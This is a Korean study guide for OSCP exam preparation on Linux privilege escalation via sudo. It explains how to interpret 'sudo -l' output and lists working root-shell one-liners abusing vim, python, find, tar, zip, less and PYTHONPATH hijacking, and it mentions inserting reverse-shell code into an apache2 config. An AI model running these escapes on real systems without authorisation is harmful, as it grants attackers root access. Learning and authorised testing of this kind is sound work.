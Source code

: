 # sudo를 이용한 권한 상승 방법 (OSCP 수동 침투)

## 1. sudo 권한 확인

```bash
sudo -l
```

- 현재 사용자가 어떤 명령어를 sudo로 실행할 수 있는지 확인합니다.
- NOPASSWD 옵션이 있으면 비밀번호 없이 실행 가능합니다.

### sudo -l 출력 예시 및 해석

#### 예시 1: 특정 명령어에 대한 NOPASSWD 권한

```
$ sudo -l
User testuser may run the following commands on hostname:
    (ALL) NOPASSWD: /usr/bin/vim
```

- **해석**: testuser는 비밀번호 없이(`NOPASSWD`) vim을 root 권한으로 실행 가능합니다.
- **권한 상승 가능성**: 매우 높음. vim의 `:!` 명령을 통해 쉘 명령어 실행 가능.
- **공격 벡터**: `sudo vim -c ':!/bin/bash'`

#### 예시 2: 모든 명령어에 대한 권한 (비밀번호 필요)

```
$ sudo -l
User testuser may run the following commands on hostname:
    (ALL : ALL) ALL
```

- **해석**: testuser는 모든 명령어를 root 권한으로 실행할 수 있지만, 비밀번호가 필요합니다.
- **권한 상승 가능성**: 비밀번호를 알고 있다면 직접 `sudo bash`로 권한 상승 가능.
- **공격 벡터**: `sudo /bin/bash` (비밀번호 입력 필요)

#### 예시 3: 여러 명령어에 대한 NOPASSWD 권한

```
$ sudo -l
User testuser may run the following commands on hostname:
    (ALL) NOPASSWD: /usr/bin/find, /usr/bin/python
```

- **해석**: testuser는 비밀번호 없이 find와 python을 root 권한으로 실행 가능합니다.
- **권한 상승 가능성**: 매우 높음. 두 가지 방법으로 쉘을 획득할 수 있음.
- **공격 벡터**:
  - `sudo find . -exec /bin/bash \; -quit`
  - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

#### 예시 4: 특정 사용자로만 실행 가능한 명령어

```
$ sudo -l
User testuser may run the following commands on hostname:
    (web_admin) NOPASSWD: /bin/systemctl restart apache2
```

- **해석**: testuser는 비밀번호 없이 web_admin 사용자로 apache2 서비스 재시작 가능.
- **권한 상승 가능성**: 제한적. apache2 서비스의 설정 파일을 수정할 수 있다면 가능.
- **공격 벡터**: apache2 설정 파일에 reverse shell 코드를 삽입 후 서비스 재시작

#### 예시 5: 와일드카드가 포함된 명령어

```
$ sudo -l
User testuser may run the following commands on hostname:
    (ALL) NOPASSWD: /usr/bin/zip * /tmp/backup.zip
```

- **해석**: testuser는 비밀번호 없이 zip 명령을 사용할 수 있으나, 첫 번째 인자에만 와일드카드 사용 가능.
- **권한 상승 가능성**: 높음. zip의 -T 옵션을 이용해 명령 실행 가능.
- **공격 벡터**: `sudo zip -T --unzip-command="sh -c /bin/bash" /tmp/backup.zip`

#### 예시 6: 환경 변수 설정이 허용된 경우

```
$ sudo -l
User testuser may run the following commands on hostname:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup_script.py
```

- **해석**: testuser는 비밀번호 없이 환경 변수를 설정하며 python3으로 특정 스크립트 실행 가능.
- **권한 상승 가능성**: 높음. PYTHONPATH 환경 변수를 조작하여 코드 실행 가능.
- **공격 벡터**: `sudo PYTHONPATH=/tmp python3 /opt/backup_script.py` (모듈 하이재킹)

### 출력 해석 방법

1. `(ALL)`: 모든 사용자로 명령을 실행할 수 있음을 의미
2. `(root)`: root 사용자로만 명령을 실행할 수 있음
3. `NOPASSWD`: 비밀번호 없이 명령을 실행할 수 있음
4. `ALL`: 모든 명령어를 실행할 수 있음

## 2. 권한 상승 가능한 명령어 탐색

- `sudo -l` 결과에서 다음과 같은 명령어가 있으면 권한 상승이 가능합니다.
- 예시: `vim`, `nano`, `less`, `find`, `python`, `perl`, `awk`, `tar`, `bash`, `sh` 등

### 권한 상승 가능 여부 판단 방법

1. **쉘 직접 접근 명령어**: `/bin/bash`, `/bin/sh` 등이 있으면 직접 쉘 획득 가능
2. **인터프리터**: `python`, `perl`, `ruby` 등이 있으면 코드 실행을 통해 쉘 획득 가능
3. **텍스트 편집기**: `vim`, `nano`, `emacs` 등이 있으면 쉘 명령어 실행 기능을 통해 쉘 획득 가능
4. **파일 검색/조작 도구**: `find`, `awk`, `sed` 등이 있으면 명령어 실행 옵션을 통해 쉘 획득 가능
5. **기타 유틸리티**: `tar`, `zip`, `man`, `less` 등이 있으면 내부 명령어 실행 기능을 통해 쉘 획득 가능

### 주요 확인 사항

- 명령어 앞에 경로(`/usr/bin/`)가 있는지 확인 -> 전체 경로가 지정되어 있으면 해당 바이너리만 실행 가능
- 와일드카드(`*`)가 있는지 확인 -> 추가 옵션이나 인자 전달 가능성
- 환경 변수 설정이 가능한지 확인 -> `LD_PRELOAD`, `LD_LIBRARY_PATH` 등을 이용한 권한 상승 가능성

## 3. 대표적인 권한 상승 예시

### (1) /bin/bash 실행 권한이 있을 때

```bash
sudo /bin/bash
```

### (2) python이 있을 때

```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

### (3) vi/vim이 있을 때

```bash
sudo vim -c ':!/bin/bash'
```

### (4) find가 있을 때

```bash
sudo find . -exec /bin/bash \; -quit
```

### (5) tar가 있을 때

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### (6) less가 있을 때

```bash
sudo less /etc/hosts
!bash
```

## 4. GTFOBins 참고

- [https://gtfobins.github.io/](https://gtfobins.github.io/) 에서 sudo 권한이 있는 바이너리의 권한 상승 방법을 확인할 수 있습니다.

## 5. 주의사항

- OSCP 시험에서는 root shell 획득 후 바로 증거(flag) 파일을 확인하고, 추가적인 파괴적 행위는 금지됩니다.
- 모든 권한 상승 시도는 시험 규정 내에서만 진행해야 합니다.

---

> 위 내용은 OSCP 시험에서 허용되는 수동 침투 방법만을 다룹니다.
